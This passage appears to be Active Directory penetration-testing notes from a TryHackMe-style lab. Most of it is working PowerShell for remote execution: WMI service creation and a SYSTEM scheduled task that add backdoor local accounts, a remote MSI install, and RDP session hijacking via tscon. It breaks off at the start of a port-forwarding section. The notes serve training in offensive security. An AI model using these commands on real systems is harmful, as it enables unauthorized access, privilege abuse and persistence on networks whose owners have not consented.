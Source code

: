 **Service Methodology**
Creating Service Remotely with WMI

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

Get Handle on Service and Starting It

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

**Scheduled Task Methodology**

```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user 0xd4y PleaseSubscribe /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "MyTask"
Start-ScheduledTask -CimSession $Session -TaskName "MyTask"
```

**Installing MSI Package Methodology**

After copying MSI file to targeted remote system run the following command to install the package.

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

### RDP Hijacking

- SYSTEM user on Windows Server 2016 does not require a password, but Windows Server 2019 does
- when user connects via RDP and closes their client but not log out, their session is still active
- use `query user` to find sessions on machine
    - unused active sessions identified by `Disc` state
- connect to session using `tscon <SESSION_ID> /dest:<SESSIONNAME>`

![Untitled](Active%20Directory%20Pentesting%2013bdf411f877497282c549a5fd16d4c9/Untitled%208.png)

### Remote Port Forwarding

1. Create a user on attack box without console access:
